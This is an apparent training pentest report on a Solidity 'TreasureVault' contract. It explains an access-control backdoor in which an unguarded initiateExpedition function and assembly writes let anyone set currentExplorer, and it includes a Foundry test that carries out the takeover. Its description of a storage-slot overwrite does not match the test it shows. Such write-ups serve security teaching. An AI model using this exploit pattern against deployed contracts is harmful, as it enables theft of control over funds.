


# Pentest Report for hiddenbackdoor.sol

> Author: Tran Thanh Minh
> 

<aside>
🏦

The `TreasureVault` contract is used to manage a treasure expedition, including who can access the vault. 

</aside>

# Table of contents

---

# Vulnerability

The `TreasureVault` contract contain the usage of inline assembly for accessing and modifying the `currentExplorer` address, which creates a backdoor for unauthorized users to exploit. This vulnerability can refer to one of the [OWASP Top 10 Smart Contract vulnerabilities](https://owasp.org/www-project-smart-contract-top-10/2023/en/src/SC04-access-control-vulnerabilities.html), which belong to Insecure Access Control. 

# Exploit Development

An attacker can exploit the vulnerability by directly altering storage slots in the contract to overwrite the `vaultKeeper` address (slot 2) with the attacker’s address and then trigger the `initiateExpedition` function to set him as `currentExplorer` . 



# Explanation of Exploit

The contract uses `assembly` to store the `explorer` address in the storage slot `1` directly, bypassing any function modifiers or access control checks. There are no access control mechanisms around the `initiateExpedition` function, so anyone can invoke the function, even if they are not authorized.
Result of the exploit: 



Exploit successfully

# Resource

The test case to exploit: 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "forge-std/Test.sol"; // Foundry library
import "../src/hiddenbackdoor.sol";

contract TreasureVaultTest is Test {
    TreasureVault public vault;

    address public attacker =
        address(0x1234567890123456789012345678901234567890);

    function setUp() public {
        // Deploy the TreasureVault contract
        vault = new TreasureVault();
    }

    function testInitiateExpedition() public {
        uint256 timestamp = block.timestamp;
        // Log the current explorer before calling initiateExpedition
        address initialExplorer = vault.checkCurrentExplorer();
        console.log("Initial Explorer Address: ", initialExplorer);
        // Call initiateExpedition
        vault.initiateExpedition(attacker, timestamp);
        // Log the current explorer after calling initiateExpedition
        address updatedExplorer = vault.checkCurrentExplorer();
        console.log("Updated Explorer Address: ", updatedExplorer);
        // Assert that the explorer was updated
        assertEq(
            updatedExplorer,
            attacker,
            "currentExplorer was not updated correctly"
        );
    }
}

```